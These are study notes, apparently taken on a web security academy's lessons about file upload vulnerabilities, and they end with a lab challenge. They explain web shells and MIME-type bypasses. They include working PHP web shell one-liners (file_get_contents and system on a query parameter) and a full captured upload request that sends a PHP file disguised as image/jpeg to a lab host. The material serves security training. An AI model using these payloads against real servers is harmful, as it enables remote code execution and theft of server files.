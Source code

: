 # What are file upload vulnerabilities?
File upload vulnerabilities are when a web server allows users to upload files to its filesystem without sufficiently validating things like their name, type, contents, or size. Failing to properly enforce restrictions on these could mean that even a basic image upload function can be used to upload arbitrary and potentially dangerous files instead. This could even include server-side script files that enable remote code execution.

In some cases, the act of uploading the file is in itself enough to cause damage. Other attacks may involve a follow-up HTTP request for the file, typically to trigger its execution by the server.

## How do file upload vulnerabilities arise?
Given the fairly obvious dangers, it's rare for websites in the wild to have no restrictions whatsoever on which files users are allowed to upload. More commonly, developers implement what they believe to be robust validation that is either inherently flawed or can be easily bypassed.

For example, they may attempt to blacklist dangerous file types, but fail to account for parsing discrepancies when checking the file extensions. As with any blacklist, it's also easy to accidentally omit more obscure file types that may still be dangerous.

In other cases, the website may attempt to check the file type by verifying properties that can be easily manipulated by an attacker using tools like Burp Proxy or Repeater.

Ultimately, even robust validation measures may be applied inconsistently across the network of hosts and directories that form the website, resulting in discrepancies that can be exploited.

## Exploiting unrestricted file uploads to deploy a web shell
From a security perspective, the worst possible scenario is when a website allows you to upload server-side scripts, such as PHP, Java, or Python files, and is also configured to execute them as code. This makes it trivial to create your own web shell on the server.

Web shell
A web shell is a malicious script that enables an attacker to execute arbitrary commands on a remote web server simply by sending HTTP requests to the right endpoint.

If you're able to successfully upload a web shell, you effectively have full control over the server. This means you can read and write arbitrary files, exfiltrate sensitive data, even use the server to pivot attacks against both internal infrastructure and other servers outside the network. For example, the following PHP one-liner could be used to read arbitrary files from the server's filesystem:
```
<?php echo file_get_contents('/path/to/target/file'); ?>
```
Once uploaded, sending a request for this malicious file will return the target file's contents in the response.

A more versatile web shell may look something like this:
```
<?php echo system($_GET['command']); ?>
```
This script enables you to pass an arbitrary system command via a query parameter as follows:

GET /example/exploit.php?command=id HTTP/1.1

### Challenge
Upload a php webshell and exfiltrate the contents of /home/carlos/secret
In Blog, log into your wiener:peter account and upload payload to your avatar. 

# Exploiting flawed validation of file uploads
In the wild, it's unlikely that you'll find a website that has no protection against file upload attacks like we saw in the previous lab. But just because defenses are in place, that doesn't mean that they're robust. You can sometimes still exploit flaws in these mechanisms to obtain a web shell for remote code execution.

## Flawed file type validation
When submitting HTML forms, the browser typically sends the provided data in a POST request with the content type application/x-www-form-url-encoded. This is fine for sending simple text like your name or address. However, it isn't suitable for sending large amounts of binary data, such as an entire image file or a PDF document. In this case, the content type multipart/form-data is preferred.

Flawed file type validation - Continued
Consider a form containing fields for uploading an image, providing a description of it, and entering your username. Submitting such a form might result in a request that looks something like this:

POST /images HTTP/1.1
    Host: normal-website.com
    Content-Length: 12345
    Content-Type: multipart/form-data; boundary=---------------------------012345678901234567890123456

    ---------------------------012345678901234567890123456
    Content-Disposition: form-data; name="image"; filename="example.jpg"
    Content-Type: image/jpeg

    [...binary content of example.jpg...]

    ---------------------------012345678901234567890123456
    Content-Disposition: form-data; name="description"

    This is an interesting description of my image.

    ---------------------------012345678901234567890123456
    Content-Disposition: form-data; name="username"

    wiener
    ---------------------------012345678901234567890123456--
As you can see, the message body is split into separate parts for each of the form's inputs. Each part contains a Content-Disposition header, which provides some basic information about the input field it relates to. These individual parts may also contain their own Content-Type header, which tells the server the MIME type of the data that was submitted using this input.

One way that websites may attempt to validate file uploads is to check that this input-specific Content-Type header matches an expected MIME type. If the server is only expecting image files, for example, it may only allow types like image/jpeg and image/png. Problems can arise when the value of this header is implicitly trusted by the server. If no further validation is performed to check whether the contents of the file actually match the supposed MIME type, this defense can be easily bypassed using tools like Burp Repeater.

## Challenge
In Blog, upload a file to get RCE again but you'll have to change the mime type:

```
POST /my-account/avatar HTTP/2
Host: 0ac5004703d8606181db20bc00b6001e.web-security-academy.net
Cookie: session=k5ApY5KEeOVUFXL6fkM2KHkqqU5DmdY2
Content-Length: 464
Cache-Control: max-age=0
Sec-Ch-Ua: "Chromium";v="139", "Not;A=Brand";v="99"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "macOS"
Accept-Language: en-US,en;q=0.9
Origin: https://0ac5004703d8606181db20bc00b6001e.web-security-academy.net
Content-Type: multipart/form-data; boundary=----WebKitFormBoundarynaP4Lq6dAjESF1y6
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/139.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://0ac5004703d8606181db20bc00b6001e.web-security-academy.net/my-account?id=wiener
Accept-Encoding: gzip, deflate, br
Priority: u=0, i

------WebKitFormBoundarynaP4Lq6dAjESF1y6
Content-Disposition: form-data; name="avatar"; filename="readfile.php"
Content-Type: image/jpeg

<?php echo file_get_contents('/home/carlos/secret'); ?>

------WebKitFormBoundarynaP4Lq6dAjESF1y6
Content-Disposition: form-data; name="user"

wiener
------WebKitFormBoundarynaP4Lq6dAjESF1y6
Content-Disposition: form-data; name="csrf"

DLbAq8F54yOIPzPbtQnVePQZQnpL8JfV
------WebKitFormBoundarynaP4Lq6dAjESF1y6--
```

